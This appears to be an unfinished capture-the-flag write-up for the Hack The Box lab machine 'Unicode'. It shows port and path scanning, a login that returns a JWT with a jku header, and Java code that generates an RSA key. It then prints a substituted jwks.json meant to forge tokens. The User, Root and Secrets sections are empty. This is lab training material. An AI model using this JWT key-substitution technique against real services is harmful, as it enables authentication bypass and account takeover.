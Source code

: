 # Unicode

# Enumeration

````
nmap -sCV -p22,80 --min-rate 1000 10.10.11.126 -oA nmap-10.10.11.126-sCV
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-23 06:18 EDT
Nmap scan report for unicode.htb (10.10.11.126)
Host is up (0.15s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fd:a0:f7:93:9e:d3:cc:bd:c2:3c:7f:92:35:70:d7:77 (RSA)
|   256 8b:b6:98:2d:fa:00:e5:e2:9c:8f:af:0f:44:99:03:b1 (ECDSA)
|_  256 c9:89:27:3e:91:cb:51:27:6f:39:89:36:10:41:df:7c (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-generator: Hugo 0.83.1
|_http-title: Hackmedia
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.45 seconds
````

````
# wfuzz -u 'http://unicode.htb/FUZZ' -w /root/Downloads/subdomains-top1million-110000.txt --hl 514
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://unicode.htb/FUZZ
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                 
=====================================================================

000000107:   308        3 L      24 W       258 Ch      "upload"                                                                                             
000000468:   308        3 L      24 W       262 Ch      "register"                                                                                          
000002707:   308        3 L      24 W       256 Ch      "debug"                                                                                              
000009283:   308        3 L      24 W       258 Ch      "logout"                                                                                             
000025933:   308        3 L      24 W       260 Ch      "pricing"                                                                                             
000047706:   200        68 L     162 W      2078 Ch     "#smtp"
````

Create a user and login
````
POST /login/ HTTP/1.1
Host: unicode.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://unicode.htb
Connection: close
Referer: http://unicode.htb/login/
Upgrade-Insecure-Requests: 1

username=blah&password=bugsam
````

````
HTTP/1.1 302 FOUND
Server: nginx/1.18.0 (Ubuntu)
Date: Wed, 23 Mar 2022 10:22:11 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 228
Connection: close
Location: http://unicode.htb/dashboard/
Set-Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9oYWNrbWVkaWEuaHRiL3N0YXRpYy9qd2tzLmpzb24ifQ.eyJ1c2VyIjoiYmxhaCJ9.g1K_hychzS7mTBSAnra1_WY1iMWs9SpzFsBsvEapubKQXIg6bG5zBnTyicFZ7v3nMf7VD0mBUoor2G8Sc5255OT-yGCDATs-xCo5z_9Q0rX2aVcjslpY0YjOdkvBztXI76tBEOtfYwjs2VQ2GWzdvA_r1H8vkIR2Qw3lpQ4MJVAHldqoL23uCu1KMQYhYeh6EuRMiI697PGCo4BCojLYVugfzgJhkWWyEH7jRDOu4C05JW3RMsJryAvM2om_ndv8SVj8NFNZBf1HMjiltUNtFgRI1708xRfxK-yUS3F1P0eWoEIDWdM01S6CzIuKWYnYAQlJHiDS3mPzx6wfsLfiqA; Path=/

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/dashboard/">/dashboard/</a>. If not click the link.
````


[pyjwt](https://pyjwt.readthedocs.io/en/stable/usage.html)
````python
>>> import jwt
>>> payload =
'eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9oYWNrbWVkaWEuaHRiL3N0YXRpYy9qd2tzLmpzb24ifQ.eyJ1c2VyIjoiYmxhaCJ9.g1K_hychzS7mTBSAnra1_WY1iMWs9SpzFsBsvEapubKQXIg6bG5zBnTyicFZ7v3nMf7VD0mBUoor2G8Sc5255OT-yGCDATs-xCo5z_9Q0rX2aVcjslpY0YjOdkvBztXI76tBEOtfYwjs2VQ2GWzdvA_r1H8vkIR2Qw3lpQ4MJVAHldqoL23uCu1KMQYhYeh6EuRMiI697PGCo4BCojLYVugfzgJhkWWyEH7jRDOu4C05JW3RMsJryAvM2om_ndv8SVj8NFNZBf1HMjiltUNtFgRI1708xRfxK-yUS3F1P0eWoEIDWdM01S6CzIuKWYnYAQlJHiDS3mPzx6wfsLfiqA'
>>> jwt.get_unverified_header(payload)
{'typ': 'JWT', 'alg': 'RS256', 'jku': 'http://hackmedia.htb/static/jwks.json'}
>>> jwt.decode(payload, options={"verify_signature": False})
{'user': 'blah'}
````


````json
{
    "keys": [
        {
            "kty": "RSA",
            "use": "sig",
            "kid": "hackthebox",
            "alg": "RS256",
            "n": "AMVcGPF62MA_lnClN4Z6WNCXZHbPYr-dhkiuE2kBaEPYYclRFDa24a-AqVY5RR2NisEP25wdHqHmGhm3Tde2xFKFzizVTxxTOy0OtoH09SGuyl_uFZI0vQMLXJtHZuy_YRWhxTSzp3bTeFZBHC3bju-UxiJZNPQq3PMMC8oTKQs5o-bjnYGi3tmTgzJrTbFkQJKltWC8XIhc5MAWUGcoI4q9DUnPj_qzsDjMBGoW1N5QtnU91jurva9SJcN0jb7aYo2vlP1JTurNBtwBMBU99CyXZ5iRJLExxgUNsDBF_DswJoOxs7CAVC5FjIqhb1tRTy3afMWsmGqw8HiUA2WFYcs",
            "e": "AQAB"
        }
    ]
}
````

Generating a JWK
````java
package com.company;
import java.security.*;
import java.security.interfaces.*;
import java.util.*;

import com.google.gson.Gson;
import com.google.gson.GsonBuilder;
import com.google.gson.JsonParser;
import com.nimbusds.jose.jwk.JWK;
import com.nimbusds.jose.jwk.KeyUse;
import com.nimbusds.jose.jwk.RSAKey;

public class Main {

    public static void main(String[] args) throws NoSuchAlgorithmException {
        // write your code here
        // Generate the RSA key pair
        KeyPairGenerator gen = KeyPairGenerator.getInstance("RSA");
        gen.initialize(2048);
        KeyPair keyPair = gen.generateKeyPair();

        // Convert to JWK format
        JWK jwk = new RSAKey.Builder((RSAPublicKey)keyPair.getPublic())
        .privateKey((RSAPrivateKey)keyPair.getPrivate())
        .keyUse(KeyUse.SIGNATURE)
        .keyID(UUID.randomUUID().toString())
        .build();

        //Printing on screen
        Gson gson = new GsonBuilder().setPrettyPrinting().create();
        System.out.println(gson.toJson(JsonParser.parseString(jwk.toJSONString())));
    }
}

new JWK
````json
{
  "p": "y2wRyFxKRSh1bQUdViGOX2GWXmRRcmMWUnoIBst8OVhTr79iO2qilGmno5Ca9_9bSQ6PCNpCKZYXugFEUuUIiGlW1IdRdpb_v3YIvPl7IpqCL3UQVkUSSJEXQIi5bkZooOpgduzg7maHzoXAZwb_ZxImFm6ldv4NdJcS85yarsU",
  "kty": "RSA",
  "q": "veNZ9gbHv5wG-xnKmjAYrVH2OheotK1BVkNvNh0BwQ3F72QjOilFcQjamaiWK8ueoWrvv5N8-lR1GDsxf-PDkauLzNT3kBpu33D6vedmnEa8RKEKLpP6tTORXt9SStT0tE1HboRwwqMn8hvs-HPwDTSwVNQMLZldll51bZeWwgM",
  "d": "A-JQ7j0hn7emmxpXCGuAEbQF0iGuJFrc_GZ_vKMF_ynKc0qEI9gwHRCaP-tj8U2u--IIxWNkTwydbZLK-DwT_EZ3UL3l71v1fED6JGlG93R_cA4sekRaKFumPbP7j_8jQPdkx7i63FJVE3qWdF15TbQsVnpLYloAla8LW9RfRYrF7Cy0uzncVnqh_vITzST0lNlchAAisr3xpY2wZs71aUGcwj4sIjMuk3qn4fBvewaemg-b0NmylTFwHeQknfhuMgaMyOopW_zCzw8sV2tEH3tSEwSikHFM8qU0kSTiisFKezqPi6UxRMPsFxw1i8X6EAUVGWkRTz24x4bVFmqTOQ",
  "e": "AQAB",
  "use": "sig",
  "kid": "d763bd50-698a-44d6-802e-920b37ea1fd3",
  "qi": "SqRQjiUx9yp-3qZ0KNQz-F-tS76NlajEhxgD_-heqapDIPD4UuY1cTJFqQVgk2pVu9r8QmgA249T7c1M8qzilxvbssJBcLRV2L7QHIPnabHP7TEpU_KHlchNQEEd_RBcTLi3_wep5dBiOB-aMxkjx-3uJynWUDjufI209Mb0ArU",
  "dp": "YGFMr5yih8_aixPQSX3OofxvrTtkp4ixC9TLtsR0kAr8Y5mO5k3ox96jUcjy06uGSb__HxeiH2gAx91PzOK9PzyBqmKOw1xZwhIfo8GkiMmiAvA5FFbXidBMrwPYr5nmes9xcwdarzmfAMe4WFglbGVZ7GjyNsW6BFKL5SZ-120",
  "dq": "HKNZQf2ryn4hn2U4ZSCz2A_wbrp6uyUWIYhyEVs2lIMbQwt7NJ5c1rtbHKmMXHaNKhMSrXX091wdfNYQlRUovaN9phrIa3dRGWnUpydrFk6kvkT7YCL5QLLSTdiodJjBfx_YkhZvWyt4Ls9_Yck6fwNfRKvmWkozDyaX1ztxhTk",
  "n": "luNxcMI3qzbUkABS-Fd7QDQhGsinO3x8Unkdw2p40fzoCUBoJ4EhugAzERfNuYgpg2rHT2OnJGh5uyO-TAiIBTpcckyVgvFolk0l_wBcX9LqFJQwBPtcOB4jG4AdvVY7MqFsEALR4FBV3HCWYDKiPwxMRs-SO2RyrKI5zA-lPcZF7QgH0rIMGl8KH9PemRbYxg3KAl-gcbX0PBM6jkGdj67K-N6XxxfwmzZrcf6E-2Y1PPq-LfA4iZX5Ij9FXy_6SJfKGYH5NcZzx0ufFaF8hwVUHmfY7asFWPC8SqzVIDH3-IjnwAlyNR2YugChfPzIfyiIeJcLX0agUUghqK9WTw"
}
````

jwks.json
````json
{
    "keys": [
        {
            "kty": "RSA",
            "use": "sig",
            "kid": "hackthebox",
            "alg": "RS256",
            "n": "luNxcMI3qzbUkABS-Fd7QDQhGsinO3x8Unkdw2p40fzoCUBoJ4EhugAzERfNuYgpg2rHT2OnJGh5uyO-TAiIBTpcckyVgvFolk0l_wBcX9LqFJQwBPtcOB4jG4AdvVY7MqFsEALR4FBV3HCWYDKiPwxMRs-SO2RyrKI5zA-lPcZF7QgH0rIMGl8KH9PemRbYxg3KAl-gcbX0PBM6jkGdj67K-N6XxxfwmzZrcf6E-2Y1PPq-LfA4iZX5Ij9FXy_6SJfKGYH5NcZzx0ufFaF8hwVUHmfY7asFWPC8SqzVIDH3-IjnwAlyNR2YugChfPzIfyiIeJcLX0agUUghqK9WTw",
            "e": "AQAB"
        }
    ]
}
````



# User


# Root

# Secrets

